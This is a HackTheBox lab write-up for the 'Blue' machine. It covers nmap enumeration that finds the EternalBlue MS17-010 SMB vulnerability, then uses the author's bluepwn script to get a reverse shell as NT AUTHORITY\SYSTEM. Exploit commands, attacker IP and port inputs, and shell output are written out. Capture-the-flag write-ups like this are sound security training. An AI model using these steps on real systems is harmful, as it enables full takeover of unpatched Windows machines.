 ```yaml
---
title: HTB - Blue
description: ""
date: 2024-08-20 06:25:00 -0600
categories:
  - CTF
  - HTB
tags:
  - writeup
  - eternal_blue
  - eccptv2
  - hackthebox
---
```

## Enumeration

Start with an nmap scan that will output every open port in grep format to the archive allPorts
```bash
$ sudo nmap -sS -p- --open -n -Pn --min-rate=5000 10.10.10.40 -vvv -oG allPorts
```

After doing that I use a function named xps to extract the ports and run a command that will enumerate all the versions and scripts of each port 

```bash
$ xps allPorts
[+] command copied to clipboard, run:
sudo nmap -sVC -p135,139,445,49152,49153,49154,49155,49156,49157 --min-rate=5000 -n -Pn 10.10.10.40 -oN targeted
```

I modified the output to only scan those related to smb and enumerate the scripts with "vuln and safe" categories

```bash
$ sudo nmap -sVC --script="vuln and safe" -p135,139,445 --min-rate=5000 -n -Pn 10.10.10.40 -oN targeted
```

The scan shows that the machine is vulnerable to eternal-blue ms17-010

```java
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

## shell as nt authority/system
To exploit this vulnerability I use a bash script I made that will automate all the process [bluepwn-ms17-010](https://github.com/wxrdcn/bluepwn-ms17-010)

```bash
$ git clone https://github.com/wxrdcn/bluepwn-ms17-010
$ cd bluepwn-ms17-010
$ ./bluepwn.sh
```

the process is the following first I retrieve the information of the target with the objective to know its architecture, in this case I have a x64 windows 7 machine  

```java
Choose an option
[1] Get Target information
[2] Run exploit
[0] Exit
[>] 1
[?] IP of the target: 10.10.10.40
SMB         10.10.10.40     445    HARIS-PC         [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:HARIS-PC) (domain:haris-PC) (signing:False) (SMBv1:True)
[?] Would you like to go back?
[Y/n] y
```

Then I run the exploit setting up the correct parameters such as ip address port and architecture

```java
Choose an option
[1] Get Target information
[2] Run exploit
[0] Exit
[>] 2
[?] Target IP: 10.10.10.40
[?] Your IP: 10.10.14.13
[?] Your Port: 9001
[?] Architecture of the host
	[1] x86
	[2] x64
[>] 2
```

The tool automatically retries the exploit in order to make it work, finally after some retries it spawns a shell as nt authority\system

```bash
[!] Retrying...
If the issue persists is probably that the target machine got rebooted
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```


